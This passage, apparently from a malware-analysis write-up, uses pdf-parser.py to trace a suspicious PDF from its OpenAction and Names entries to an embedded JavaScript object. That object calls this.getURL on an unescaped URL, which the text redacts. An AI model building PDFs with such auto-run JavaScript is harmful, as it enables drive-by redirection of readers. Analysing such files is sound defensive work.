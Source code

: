 ### `pdf-parser.py .\example1.pdf -o 26`

We can see that object 26 refers to object 23 after `\JavaScript`.

{% highlight python linenos %}
PS C:\Users\vagrant\Desktop\work\pdf> pdf-parser.py .\example1.pdf -o 26
obj 26 0
 Type: /Catalog
 Referencing: 1 0 R, 3 0 R, 23 0 R

  <<
    /Type /Catalog
    /Pages 1 0 R
    /OpenAction [3 0 R /XYZ null null 1]
    /PageLayout /OneColumn
    /Names
      <<
        /JavaScript 23 0 R
      >>
  >>
{% endhighlight %}

### `pdf-parser.py .\example1.pdf -o 23`

more redirection!

Object 23 refers to object 24!

{% highlight python linenos %}
PS C:\Users\vagrant\Desktop\work\pdf> pdf-parser.py .\example1.pdf -o 23                                                              obj 23 0
 Type:
 Referencing: 24 0 R

  <<
    /Names [(EmbeddedJS) 24 0 R]
  >>
{% endhighlight %}

### `pdf-parser.py .\example1.pdf -o 24`

Yay! malicious JS!!

{% highlight python linenos %}
PS C:\Users\vagrant\Desktop\work\pdf> pdf-parser.py .\example1.pdf -o 24

obj 24 0
 Type:
 Referencing:

  <<
    /S /JavaScript
    /JS "(this.getURL\\(unescape\\('<REDACTED>'\\)\\))"
  >>
{% endhighlight %}
